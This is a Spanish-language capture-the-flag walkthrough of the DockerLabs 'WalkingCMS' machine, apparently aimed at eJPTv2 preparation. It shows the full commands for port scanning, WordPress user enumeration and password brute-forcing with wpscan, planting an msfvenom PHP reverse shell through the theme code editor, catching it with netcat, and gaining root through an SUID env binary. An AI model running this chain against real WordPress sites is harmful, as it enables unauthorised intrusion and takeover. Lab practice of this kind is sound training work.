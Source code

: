 # WalkingCMS DockerLabs

***

## 1 - Reconocimiento

#### P1 - Verificar conectividad

```Shell
ping -c 1 172.17.0.2
```

<figure><img src="../.gitbook/assets/WalkingCMS - ping.jpg" alt=""><figcaption></figcaption></figure>

#### P2 - Escaneo de puertos con nmap

```Shell
nmap -p- --open --min-rate=5000 -n -Pn 172.17.0.2
```

<figure><img src="../.gitbook/assets/WalkingCMS - nmap.jpg" alt=""><figcaption></figcaption></figure>

## 2 - Enumeración

#### P1 - Scripts basicos de reconocimiento y versiones de los servicios

```Shell
nmap -sCV -p80 172.17.0.2
```

<figure><img src="../.gitbook/assets/WalkingCMS - -sCV.jpg" alt=""><figcaption></figcaption></figure>

> Vemos que tenemos el puerto 80 (http) expuesto, veamos que hay en la pagina web

<figure><img src="../.gitbook/assets/Trust - Pagina web.jpg" alt=""><figcaption></figcaption></figure>

> Nos encontramos con la pagina web por defecto de apache2, esto nos dice que es un servidor web apache2 recien instalado, como no hay nada en la pagina raiz veamos que hay en los demas directorios

```Shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.php,.py,.sh,.html
```

> En este caso he usado gobuster para la enumeración de directorios, pero tambien podrias usar otra herramienta como dirbuster que es la recomendada por INE para la EJPTv2

<figure><img src="../.gitbook/assets/WalkingCMS - gobuster.jpg" alt=""><figcaption></figcaption></figure>

> Entre los directorios encontrados el que mas nos llama la atencion es /wordpress ya que nos indica contra que nos estamos enfrentando

<figure><img src="../.gitbook/assets/WalkingCMS - Revision de wordpress.jpg" alt=""><figcaption></figcaption></figure>

> Hagamos otra enumeración de directorios con gobuster pero esta vez al directorio /wordpress/

```Shell
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.php,.py,.sh,.html
```

<figure><img src="../.gitbook/assets/WalkingCMS - segundo gobuster (1).jpg" alt=""><figcaption></figcaption></figure>

> Ahora que hemos encontrado rutas mas interesantes, podemos empezar con la enumeración de plugins vulnerables, usuarios

#### P2 - Enumeración de usuarios y plugins vulnerables

```Shell
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
```

<figure><img src="../.gitbook/assets/WalkingCMS - usuario.jpg" alt=""><figcaption></figcaption></figure>

> Vemos que wpscan nos encontró un usuario llamado mario, en el siguiente paso probaremos a hacer un ataque de fuerza bruta con wpscan

## 3 - Explotación

#### P1 - Fuerza bruta al usuario mario

```Shell
wpscan --url http://172.17.0.2/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames mario
```

<figure><img src="../.gitbook/assets/WalkingCMS - fuerza bruta.jpg" alt=""><figcaption></figcaption></figure>

> Wpscan encontró la contraseña love para el usuario mario, probemos a entrar desde el panel de wp-login que encontramos anteriormente con gobuster

<figure><img src="../.gitbook/assets/WalkingCMS - correo.jpg" alt=""><figcaption></figcaption></figure>

> El usuario y la contraseña parecen ser correctos, pero nos piden que verifiquemos si el correo es correcto, si le damos a cualquiera de las 3 opciones nos dejara iniciar sesion como el usuario mario

<figure><img src="../.gitbook/assets/WalkingCMS - logeados.jpg" alt=""><figcaption></figcaption></figure>

> Si echamos un vistazo a la pagina nos daremos cuenta que en el apartado de apariencia hay una sección que se llama 'Theme code editor' que nos deja insertar codigo, subir archivos etc.

<figure><img src="../.gitbook/assets/WalkingCMs - Theme code editor.jpg" alt=""><figcaption></figcaption></figure>

#### P2 - Creacion de archivos maliciosos con msfvenom

> Dentro de msfconsole podemos buscar payloads con el comando --list payloads

```Shell
msfvenom --list payloads | grep "php"
```

<figure><img src="../.gitbook/assets/WalkingCMS - reverse shell.jpg" alt=""><figcaption></figcaption></figure>

> En este caso usaremos el payload php/reverse\_php, para la creacion de el archivo malicioso tendremos q indicar nuestra ip y el puerto en el que nos pondremos en escucha con netcat

<figure><img src="../.gitbook/assets/WalkingCMS - msfvenoom.jpg" alt=""><figcaption></figcaption></figure>

#### P3 - Insertar el codigo malicioso a wordpress

> Copiamos el codigo de el archivo malicioso creado con msfvenom y lo pegamos en el campo de texto de index.php dentro de Theme Code editor (hay que borrar el codigo que viene por defecto)

```Shell
cat archivo.php | xclip -selection clipboard
```

<figure><img src="../.gitbook/assets/WalkingCMS - codigo subido.jpg" alt=""><figcaption></figcaption></figure>

> Ahora que ya hemos subido la reverse shell, solo queda entrar a la ruta donde la hemos subido: http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/ , nos ponemos en escucha con netcat por el puerto 8888 y ya estaremos dentro de la maquina victima

<figure><img src="../.gitbook/assets/WalkingCMS - ruta revshell.jpg" alt=""><figcaption></figcaption></figure>

```Shell
nc -nlvp 8888
```

<figure><img src="../.gitbook/assets/WalkingCMS - Estamos dentro.jpg" alt=""><figcaption></figcaption></figure>

## 4 - Escalada de privilegios

#### P1 - Tratamineto de la TTY

```Shell
1  script /dev/null -c bash

2 Ctrl + Z 

3 stty raw -echo;fg

4 reset xterm
```

#### P2 - Busqueda de binarios suid

```Shell
find / -perm -4000 2>/dev/null
```

<figure><img src="../.gitbook/assets/WalkingCMS - escalada.jpg" alt=""><figcaption></figcaption></figure>

> Aquí localizamos que el binario env tiene estos permisos, lo cual es algo extraño, vamos a aprovecharnos de este binario para convertirnos en root

```Shell
/usr/bin/env /bin/bash -p
```

> Ya somos root

***
